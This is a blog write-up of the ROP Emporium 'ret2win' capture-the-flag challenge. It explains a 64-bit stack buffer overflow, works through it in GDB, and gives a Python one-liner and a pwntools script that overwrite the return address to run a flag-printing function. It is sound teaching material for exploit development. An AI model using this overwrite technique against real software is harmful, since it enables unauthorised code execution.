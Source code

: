 ```yaml
---
layout: single
title: "RopEmporium - Ret2win"
---
```


I recently came across Rop Emporium and I thought I'd give it a go and post my progress! Let's jump in...

All the challenges are hosted on the site https://ropemporium.com/, there is also a guide with plenty of useful information, tools and techniques that be used during the challenges.

# ret2win - https://ropemporium.com/challenge/ret2win.html

The description for ret2win starts with "ret2win means 'return here to win'" - sounds simple, right?

Running the binary and we see the message below, it mentions trying to 56 bytes into 32 bytes of stack buffer, what could go wrong? We know that the stack grows down from higher addresses to lower addresses, and when a function prolog takes place it reserves space on the stack for local variables.

![alt text](https://ben0.github.io/assets/images/ret2win-intro.PNG "Running the binary ret2win")

If we execute the binary with more than 32 characters what'll happen? Let's try with 48 characters...

![alt text](https://ben0.github.io/assets/images/ret2win-overflow.PNG "Overflowing the buffer")

Yep, we overflowed the buffer and caused the binary to segfault. Why? The call to read() accepts upto 56 bytes, which is 24 more than the 32 bytes variable space allocated, our input is accepted pushing the data onto the stack, the 'pwnme' function wraps up, and the ret instruction then pops the next 8 bytes off the stack which is 'AAAAAAAA', because this isn't a valid memory address, it segfaults!

When the read() function stores the data on the stack it starts from lower addresses and works to high addresses, overwriting any existing data in memory as it goes...

Before we move on it's handy to enumerate the binary, we'll use NM to understand the symbols or functions within the binary, and Rabin2 to see what mitigations are enabled.

![alt text](https://ben0.github.io/assets/images/ret2win-nm.PNG "Symbols within the binary")

![alt text](https://ben0.github.io/assets/images/ret2win-rabin2.PNG "Mitigations")

Within the binary there are a few functions, including one called `ret2win` at address `0x0000000000400756`. There is a `mov    edi,0x400943` then `call   400560 <system@plt>`, lets see what string is being moved into edi from address `0x400983` - Rabin2 is great for analysing strings in binaries.

![alt text](https://ben0.github.io/assets/images/ret2win-objdump-ret2win.PNG "Ret2win function disassembled")

![alt text](https://ben0.github.io/assets/images/ret2win-rabin2-strings.PNG "Strings within the binary")

Our objective is to overwrite the return address from pwnme to jump to the symbol `ret2win` rather than jumping back `main`, within the ret2win function the system call will execute the string in edi which is `/bin/cat flag.txt`.

## Exploit

Using GDB it's easy to debug the binary, experimenting with different payloads to understand what's happening.

What we know:

- It's 64bit
- The buffer is 32 bytes and and read() accepts 56 bytes, meaning a stackover flow can occur
- ASLR is disabled (PIC), the adddresses of our symbols will be the same every time the binary is run

Firing up GDB with the binary, set a breakpoint on the address of pwnme with `break *pwnme`, and run the binary with `run < <(python -c "print 'A' * 32 + 'B' * 8 + 'C' * 8")`, continue, and step through a few instructions, and we're setup for the which will pop the next instruction off the stack and try and jump to it.

In the screenshot we can the top of the stacking is pointing `CCCCCCCC` or `0x4343434343434343`, this will be popped off the stack into RIP and executed, though this time it'll segfault. But we know that whatever is in those 41-48 bytes will end up in the instruction register.

![alt text](https://ben0.github.io/assets/images/ret2win-gdb-pwnme.PNG "Pwnme function - GDB")

### Method 1 - Python

`python -c "print 'A' * 32 + 'B' * 8 + '\x00\x00\x00\x00\x00\x40\x07\x56'[::-1]" | ./ret2win`

![alt text](https://ben0.github.io/assets/images/ret2win-method1.PNG "Using Python to win")

### Method 2- Pwntools

```
from pwn import *

context.arch = 'amd64'

elf = ELF("ret2win")

pwnme_symbol = p64(elf.symbols["ret2win"])

payload = b"a" * 40
payload += pwnme_symbol

io = elf.process()
io.sendline(payload)
data = io.recvall()
print(data)
```

![alt text](https://ben0.github.io/assets/images/ret2win-method1.PNG "Using Pwntools to win")
